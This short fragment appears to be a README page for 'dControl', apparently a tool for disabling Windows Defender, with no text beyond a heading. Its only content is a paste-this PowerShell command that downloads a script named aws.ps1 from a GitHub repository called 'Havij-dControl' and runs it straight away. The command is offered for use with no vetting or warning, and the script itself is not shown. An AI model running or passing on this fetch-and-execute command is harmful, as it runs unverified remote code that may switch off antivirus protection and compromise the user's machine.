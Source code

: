 # dControl
```powershell
irm https://raw.githubusercontent.com/sahmsec/Havij-dControl/main/aws.ps1 | iex
